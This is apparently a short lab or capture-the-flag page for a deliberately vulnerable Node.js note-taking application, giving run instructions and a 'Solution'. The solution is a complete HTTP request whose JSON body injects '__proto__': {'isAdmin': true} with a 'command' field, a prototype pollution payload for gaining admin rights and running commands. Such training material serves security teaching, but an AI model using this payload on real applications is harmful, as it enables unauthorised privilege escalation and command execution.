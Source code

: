 ##### Node Application

You can run it using node by executing the following commands ::

  ```
 $ npm install
 $ node app.js
  ```
  
#### Solution

```
 
POST /addnote HTTP/1.1
Host: localhost
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
content-type: application/json
Content-Length: 139
 
{"auth": {"name": "test", "password": "test"}, "note": { "text": "bla",
"command":"ls",
 "__proto__": {"isAdmin": true}}}

```
   
